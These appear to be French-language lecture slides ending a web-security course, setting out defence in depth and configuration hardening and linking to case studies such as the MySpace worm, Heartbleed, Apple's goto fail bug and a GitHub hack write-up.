
Un produit sécurisé est souvent identique fonctionnellement au même produit sans la sécurité et sans la robustesse. Que vaut la sécurité quand les plates-formes changent tous les ans, que le marché s'emballe pour la nouveauté?

> Jusqu'ici tout va bien...

Seulement voilà, vous ne pourrez pas dire que vous ne saviez pas, vous avez suivi ce cours. Vous savez maintenant que les standards du métier imposent de ... valider les entrées et filtrer les sorties.

 * Bâtissez pour durer
 * Isolez les parties 'habillage' du coeur de métier.
 * Renforcez le coeur
 * Cloisonnez
 * Si vous prenez des risques, prenez les sur des éléments isolés

--------------------------------------------------------------------------------

# Sécurité en profondeur

Ce principe est le deuxième grand principe (après les validations et filtrages). Les différentes couches, ou strates, d'un système d'information ont **toujours** des failles. Ne faites jamais une confiance aveugle aux autres briques de la solution.

> Ne faites jamais confiances aux étapes précédant votre code pour bloquer les attaques!

 * Vous limiterez les dégats en cas de faille
 * Vous compliquerez la découverte des failles (en cas d'absence de réponse positive, l'assaillant ne sait peut-être pas qu'il avait passé avec succès l'une des barrières)

> Soyez paranoïaques, on parle de systèmes automatisés, ces systèmes ont très peu de bon sens, ils peuvent laisser entrer un éléphant dans votre salon si celui-ci conduit votre voiture, porte votre cravate et possède les clefs de la maison.

(photo elephant: banksy)

--------------------------------------------------------------------------------

# Blindage de configuration

.notes: Grumpf

Ce principe est l'une des applications du principe précédent. Une application sécurisée n'existe pas si le système d'information qui héberge cette application n'est pas pris en compte.

Ceci concerne sans doute moins le développeur que son accolyte responsable de la configuration du système d'information, le **sysadmin**. On rencontre aussi très souvent quelqu'un qui est un peu mauvais (j'assume, j'en suis) dans les deux domaines et que l'on nomme **dev-op**, il a cependant assez de connaissances dans les deux domaines pour essayer de faire la jonction.

En terme de sécurité, cette jonction est importante. Il faut trouver les bons réglages pour autoriser les fonctionnalités attendues sans ouvrir de failles de sécurité.

Pour aujourd'hui, je ne vous ferais pas un cours détaillé sur l'administration système mais je liste quelques principes:

  * isolement, cloisonnement
  * restriction de droits, création de rôles par droits
  * supervision des ressources
  * connaissance des paramètres de configuration
  * conservatisme (le bon sysadmin est souvent moins *hype* que le développeur web)

--------------------------------------------------------------------------------

# Études de cas

--------------------------------------------------------------------------------

# Worm MySpace

  * [http://namb.la/popular/tech.html](http://namb.la/popular/tech.html)

--------------------------------------------------------------------------------

# OpenSSL Heartbleed

  * [XKCD](http://xkcd.com/1354/)

Sur le SSl l'année est assez chargée, vous pouvez aussi regarder ceci:

  * [Faille Apple goto](http://nakedsecurity.sophos.com/2014/02/24/anatomy-of-a-goto-fail-apples-ssl-bug-explained-plus-an-unofficial-patch/)
  * [Quasiment la même chez Debian](http://arstechnica.com/security/2014/03/critical-crypto-bug-leaves-linux-hundreds-of-apps-open-to-eavesdropping/)
  * [La dernière datant de cette semaine](http://www.numerama.com/magazine/29603-openssl-une-faille-tres-ancienne-corrigeeainsi-que-six-autres.html)

--------------------------------------------------------------------------------

# Github: 5 failles légères combinées

Egor Homakov:

[How I hacked Github again](http://homakov.blogspot.fr/2014/02/how-i-hacked-github-again.html)

